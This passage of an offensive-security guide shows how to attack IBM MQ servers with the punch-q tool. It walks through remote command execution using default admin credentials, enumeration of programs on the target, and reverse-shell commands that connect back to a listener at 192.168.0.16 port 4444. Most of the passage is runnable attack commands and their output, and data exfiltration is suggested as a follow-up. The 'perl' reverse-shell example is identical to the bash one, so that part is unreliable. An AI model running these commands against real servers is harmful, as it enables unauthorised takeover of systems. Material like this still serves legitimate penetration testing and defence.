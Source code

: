 > In the logs of IBM MQ, you can read the command is successfully executed:
>
> ```bash
> 2023-10-10T19:13:01.713Z AMQ5030I: The Command '808544aa7fc94c48' has started. ProcessId(618). [ArithInsert1(618), CommentInsert1(808544aa7fc94c48)]
> ```

You can also enumerate existing programs on the machine (here `/bin/doesnotexist` ... does not exist):

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/doesnotexist" --arg
s "whatever"
Command: /bin/doesnotexist
Arguments: -c id
Service Name: 6e3ef5af652b4436

Creating service...
Starting service...
The program '/bin/doesnotexist' is not available on the remote system.
Giving the service 0 second(s) to live...
Cleaning up service...
Done
```

**Be aware that the program launch is asynchronous. So you need a second item to leverage the exploit** **_(listener for reverse shell, file creation on different service, data exfiltration through network ...)_**

**Example 2**

For easy reverse shell, **punch-q** proposes also two reverse shell payloads :

- One with bash
- One with perl

_Of course you can build a custom one with the `execute` command._

For bash:

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```

For perl:

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```

### Custom PCF

You can dig into the IBM MQ documentation and directly use **pymqi** python library to test specific PCF command not implemented in **punch-q**.
